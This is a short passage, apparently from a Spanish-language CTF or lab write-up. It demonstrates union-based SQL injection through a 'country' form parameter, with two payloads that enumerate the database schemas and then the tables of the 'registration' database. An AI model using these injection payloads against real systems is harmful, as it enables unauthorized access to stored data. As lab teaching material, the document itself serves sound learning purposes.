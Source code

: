 ![](/assets/img/Validation/image_7.png)

`Listamos` todas las `bases de datos`

```
# username=test&country=Brazil' union select schema_name from information_schema.schemata-- - 
```

![](/assets/img/Validation/image_8.png)

`Listamos` el nombre de todas las `tablas` que pertenecen a la base de datos registration

```
# username=test&country=Brazil' union select table_name from information_schema.tables where table_schema='registration'-- - 
```
